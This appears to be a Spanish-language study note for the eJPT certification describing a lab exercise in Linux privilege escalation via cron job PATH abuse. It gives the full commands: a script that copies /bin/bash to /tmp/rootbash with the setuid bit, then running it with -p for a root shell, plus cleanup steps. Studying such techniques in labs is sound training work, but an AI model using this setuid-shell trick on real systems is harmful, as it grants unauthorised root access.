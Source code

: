 - Vea el contenido del crontab de todo el sistema:

```
cat /etc/crontab
```
Tenga en cuenta que la variable PATH comienza con /home/user, que es el directorio de inicio de nuestro usuario.

- Cree un archivo llamado overwrite.sh en su directorio de inicio con el siguiente contenido:
```
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```

- Asegúrese de que el archivo sea ejecutable:

```
chmod +x /home/user/overwrite.sh
```

- Espere a que se ejecute el trabajo cron (no debería tardar más de un minuto). Ejecute el comando /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:

```
/tmp/rootbash -p
```

Recuerde eliminar el código modificado, eliminar el ejecutable /tmp/rootbash y salir del shell elevado antes de continuar, ya que creará este archivo nuevamente más adelante en la sala.

```
rm /tmp/rootbash  
exit
```

enlace:
[[Preparacion-Ejpt]]
[[Cron Jobs - File Permissions]]
[[Cron Jobs - Wildcards]]